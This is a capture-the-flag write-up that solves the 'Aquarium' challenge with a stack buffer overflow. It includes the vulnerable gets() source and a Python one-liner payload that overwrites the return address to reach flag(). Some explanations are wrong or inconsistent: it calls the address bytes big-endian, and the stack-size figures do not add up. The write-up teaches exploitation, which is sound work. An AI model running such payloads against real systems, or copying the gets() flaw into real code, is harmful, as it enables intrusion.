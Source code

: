# Aquarium
###### Binary Exploitation - 50 Points

> Here's a nice little program that helps you manage your fish tank.
> Run it on the shell server at /problems/2019/aquarium/ or connect with nc shell.actf.co 19305.
> Author: kmh11

So we get the following C file and we are supposed to find the flag:

```c 
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

struct fish_tank {
	char name[50];
	int fish;
	int fish_size;
	int water;
	int width;
	int length;
	int height;
};


struct fish_tank create_aquarium() {
	struct fish_tank tank;

	printf("Enter the number of fish in your fish tank: ");
	scanf("%d", &tank.fish);
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d", &tank.fish_size);
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d", &tank.water);
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d", &tank.width);
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d", &tank.length);
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d", &tank.height);
	getchar();

	printf("Enter the name of your fish tank: ");
	**_char name[50];
	gets(name);_**

	strcpy(name, tank.name);
	return tank;
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	struct fish_tank tank;

	tank = create_aquarium();

	if (tank.fish_size * tank.fish + tank.water > tank.width * tank.height * tank.length) {
		printf("Your fish tank has overflowed!\n");
		return 1;
	}

	printf("Nice fish tank you have there.\n");

	return 0;
}
```

In the code we can spot 2 very critical lines(marked in bold and italics) which allow us to use a `buffer overflow` attack. 

So what do we want to do?
- We want to override the `name` variable.
- We want to change the return address to the `flag` function.

Let's begin by finding the `flag` function's address.

We can open the aquarium program in gdb and use `p flag` to get the address
```
Reading symbols from ./aquarium...
(No debugging symbols found in ./aquarium)
(gdb) p flag
$1 = {<text variable, no debug info>} **0x4011b6** <flag>
```

Let's try giving the program about 150 characters and see how it reacts:
$ python -c 'print ("1\n1\n10\n10\n10\n10\n" + "A" * 150)' | ./aquarium
$ Enter the number of fish in your fish tank: Enter the size of the fish in your fish tank: Enter the amount of water in your fish tank: Enter the width of your fish tank: Enter the length of your fish tank: Enter the height of your fish tank: Enter the name of your fish tank: Segmentation fault (core dumped) 

Oh, the program crashed. Well, what's actually going on is that we have overridden the return address, what caused the program to return to a faulty address.

Let's calculate (around) how many characters we would have to insert in order to insert a new return address:

Before we do that we need to understand how the stack is layed out, so the stack is a data type that starts out high valued and decreases with each push.
So stack will be layed out like this (once we get to the get function in the create_aquarium function)

| Stack         | Size          |
| ------------- | ------------- |
| name          | 50 bytes	|
| fish_tank	| 62 bytes      |
| junk 		| ?? bytes	|
| return address| 8  bytes 	|

To find out how big the junk / filler we just try out a few offsets until we dont override the return address.

So we found out that 152 is the correct amount of characters we would need to insert in order to start overriding the return address(which means the junk part is 31 bytes).

Now we can insert our desired address(don't forget to use big endian) and return to it:
```
$ python -c "print('1\n1\n10\n10\n10\n10\n' + 'A' * 152 + '\xb6\x11\x40\x00')" | ./aquarium
$ actf{overflowed_more_than_just_a_fish_tank}
```

Thanks for reading this writeup, it's my first one and I am sure I have big space for improvement, if you have some constructive feedback be sure to comment or send me an email @ sudaiguy1@gmail.com.
